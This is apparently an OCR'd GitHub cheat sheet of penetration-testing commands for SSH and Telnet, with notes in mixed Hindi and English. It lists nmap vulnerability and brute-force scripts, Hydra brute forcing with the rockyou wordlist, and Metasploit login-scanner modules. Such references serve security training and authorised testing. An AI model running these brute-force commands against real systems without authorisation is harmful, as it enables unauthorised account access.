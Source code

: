 | 2] ssh (22) |  |
| `nmap -sV -sC --script vuln <target_ip> -p 22` | ssh port scan with vuln script |
| ssh username@ip_address
 | ssh port me login using valid credencial |
| **ssh nmap script   /usr/share/nmap/scripts** |  |
| $ ls |grep ssh
ssh2-enum-algos.nse
ssh-auth-methods.nse
ssh-brute.nse |  |
| nmap -p22 192.168.0.106 --script=ssh-brute.nse | single nmap script use  |
| nmap -p 22 --script=ssh-* <target>
 | nmap all script use at one time |
| hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<target_ip>
 |   ssh **Bruteforce (Hydra)** |
| msfconsole   |  |
| search ssh    OR     search ssh_login
 |  |
| use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target>
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
 | **SSH Brute-Force via Metasploit** |
| use auxiliary/scanner/ssh/ssh_identify_pubkeys
set RHOSTS <target>
run
 |  **Agar weak key mili, toh tum login kar sakte ho!** |
| —————————————————————— | ————————————————————————————————— |


| 3] Telnet (23) |  |
| nmap -sV -p 23 <target> | Telnet port (23) with service/version detection. |
| nmap -p 23 -sC -sV <target> | Scans port 23 using default scripts + version detection.  |
| nmap -p 23 --script=telnet-brute <target ip> | Performs brute-force attack using a user/pass list.  |
| > nmap -p 23 --script=telnet-logout <target ip> | Checks how the Telnet server responds after login/logout. set userfile passfile |
| telnet  <target ip> 23 | username passname jb pata chal jaye. |
| nmap -p 23 --script=telnet-banner <target ip> | identify old /vulnenability version. |
| nmap -p 23 --script "telnet-*” | Runs all available Telnet NSE scripts in one go. |
| telnet [T.Ip] [Port no.]   |  Login telnet port |
| Metasploit  |  |
| search telnet | Lists all Telnet-related modules (scanner, login, exploits). |
| use auxiliary/scanner/telnet/telnet_version | use auxiliary/scanner/telnet/telnet_version |
